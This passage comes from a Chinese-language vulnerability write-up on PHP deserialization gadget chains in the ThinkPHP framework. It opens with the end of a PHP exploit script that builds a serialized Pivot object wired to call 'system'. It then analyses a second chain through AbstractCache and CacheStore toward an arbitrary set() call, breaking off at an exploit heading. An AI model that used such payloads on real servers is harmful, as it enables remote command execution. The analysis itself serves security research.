 ```php
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```
![](https://p2.ssl.qhimg.com/t014be5be00e25976c3.png)

### POP链流程图

![](https://p1.ssl.qhimg.com/t0106243373c80abb3f.png)

## POP链-2
### 漏洞分析
> - 继续分析前面寻找的 `__destruct()` 方法，跟进 `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php`

![](https://p2.ssl.qhimg.com/t010f0d63d729464f0a.png)

> - 由于 `$this->autosave` 是可控的，可以触发到 `save()` 方法，由于 `AbstractCache` 是一个抽象类，在其本身的 `save()` 方法是不可利用的，故在其继承类中寻找可以利用的 `save()` 方法，跟进 `src/think/filesystem/CacheStore.php` 中的 `save()` 方法

![](https://p3.ssl.qhimg.com/t0117e96af9953122dd.png)

> - 继续跟进其调用的 `getForStorage()` 方法，发现其进一步调用 `cleanContents()` 方法

![](https://p2.ssl.qhimg.com/t01cfbcb5aa9544612d.png)

> - 跟进 `cleanContents()` 方法，其调用 `array_flip()` 方法对数组进行反转来交换数组中的键和值，然后经过 `array_intersect_key()` 函数来使用键名比较计算数组的交集

![](https://p2.ssl.qhimg.com/t01d3f101119accbd99.png)

> 然后函数会将 `$contents` 返回给 `getForStorage()` 中的 `$cleaned`，经过 `json_encode()` 方法后返回给前面的 `save()` 方法，`$contents` 变量接收函数返回值后进入后面的逻辑，此时 `$this->store` 是可控的，可以调用任意类的 `set()` 方法，如果这个指定的类不存在 `set()` 方法，就有可能触发 `__call()`，当然也有可能本身的 `set()` 方法就可以利用

### exp-1
> 直接寻找一个可以利用的 `set()` 方法
